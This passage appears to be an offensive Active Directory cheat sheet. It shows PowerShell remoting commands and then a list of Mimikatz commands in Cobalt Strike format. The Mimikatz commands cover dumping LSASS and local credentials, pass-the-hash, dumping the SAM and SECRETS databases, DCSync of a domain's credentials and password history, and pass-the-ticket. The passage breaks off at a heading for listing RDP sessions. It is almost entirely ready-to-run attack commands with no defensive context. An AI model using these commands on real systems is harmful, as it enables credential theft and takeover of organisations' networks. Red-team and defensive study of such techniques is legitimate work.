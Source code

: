 ```powershell
#Create a new session
$sess = New-PSSession -ComputerName <NameOfComputer>

#Execute command on the session
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

### Mimikatz

```powershell
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#Dump old passwords and NTLM hashes of a user
mimikatz lsadump::dcsync /user:<DomainFQDN>\<user> /history

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
```